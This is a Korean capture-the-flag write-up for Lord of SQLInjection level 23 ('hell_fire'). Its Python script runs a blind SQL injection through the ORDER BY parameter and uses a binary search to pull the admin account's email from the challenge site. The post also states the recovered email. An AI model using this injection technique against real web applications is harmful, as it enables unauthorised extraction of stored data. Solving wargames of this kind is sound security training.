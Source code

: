 
# [23] hell_fire

## 문제
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2F5eUFD%2FbtrnVrPFyVL%2FKNGuBlPtjreZyWkhE4l4uk%2Fimg.png">

## 풀이

**LoS 23번 Python 자동화 코드**이다.

```python
import requests

def send(param):
    url = "https://los.rubiya.kr/chall/hell_fire_309d5f471fbdd4722d221835380bb805.php"
    cookie = "sdrjk57hqa404dvtb3akcpfvk1"
    head = {"PHPSESSID":f"{cookie}"}
    my_url = url+param
    res = requests.get(my_url, cookies=head)
    return res.text

print("💘 LoS 23을 시작합니다")

for num in range(0,100):
    param=f"?order=if(id='admin' and length(email)={num}, 'id', 'score')"
    if("200</td></tr><tr><td>rubiya" in send(param)):
        print(f"👏 email의 길이는 {num}입니다!")
        break

ans=""

for len in range(1, num+1):
    start = 32
    end = 127
    while True:
        middle = round((start+end)/2)
        param=f"?order=if(id='admin' and ascii(substr(email,{len},1))>={middle}, 'id', 'score') %23"
        if("200</td></tr><tr><td>rubiya" in send(param)):
            param=f"?order=if(id='admin' and ascii(substr(email,{len},1))={middle}, 'id', 'score') %23"
            if("200</td></tr><tr><td>rubiya" in send(param)):
                print(f"{len}번째 문자 → {chr(middle)}")
                ans+=chr(middle)
                break
            else:
                start = middle
                continue
        else:
            end = middle
            continue

print(f"👏 email의 정체는 [{ans}]입니다!")
```

<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FODAqj%2FbtrnX0KUmP3%2FEyAtalWB84Fusk5ABdVFM0%2Fimg.png">

admin 계정의 email은 `admin_secure_email@emai1.com` 임을 확인할 수 있다.

* @ 뒷부분을 보면... emai**1** 이다. 깨알같은 함정?

## 결과
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FboRpmQ%2Fbtrn14rH98w%2FwhuKJ6XRowVM23QGkUPvIK%2Fimg.png">